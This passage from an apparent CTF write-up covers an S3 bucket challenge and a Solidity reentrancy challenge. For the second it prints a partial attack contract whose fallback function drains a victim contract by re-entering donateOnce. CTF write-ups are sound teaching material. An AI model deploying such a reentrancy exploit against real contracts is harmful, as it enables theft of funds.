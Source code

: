 Then I tried to look for any **s3 buckets**
![Lost in amazon s3 error](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608184/csaw/lost-in-amazon-s3_ie3fcj.webp)  

My teammate **N0s** pinged me here and told me to try to specify the bucket region as buckets can be region-specific. So I looked for it
![Lost in amazon finding region](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608186/csaw/lost-in-amazon-region_tcoilm.webp)  

and finally I got the flag :smiley: :sunglasses:.
![Lost in amazon flag](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608189/csaw/lost-in-amazon-flag-aws_qr4uzq.webp)

## DonateMe

![Donate more](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608208/csaw/donate-more_efrhig.webp)  

A basic reentrancy vulnerability. Here is the evil contract below:

1. Send 0.0001 ether to trigger the reentrancy loop.
2. Stop the loop after the balance gets to 30.
3. Send the token via **getFlag**
   > You can use ethers.utils.formatBytes32String(TOKEN) to get the right format to pass.
4. **yes** and get the flag.

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.7;    

interface VictimContract { 
    function newAccount()  external payable;

    function donateOnce()  external;

    function getBalance() external view returns (uint256 donatorBalance) ;
    function getFlag(bytes32 _token) external ;
}

contract ExploitDonation { 
    address public victimAddress;
    VictimContract victimContract; 

    constructor(address _victimAddress){
            victimAddress=_victimAddress;
            victimContract=VictimContract(victimAddress);
    }

    function startAttack() public payable {
        victimContract.newAccount{value:msg.value}();
        victimContract.donateOnce();

    }

    fallback()external payable {
        uint my_balance= victimContract.getBalance();
        if (my_balance<=20)
            victimContract.donateOnce();

    }

 function getBalance() public view returns (uint256) {
        return victimContract.getBalance();
    }

    function getFlag(bytes32 _token) public {
```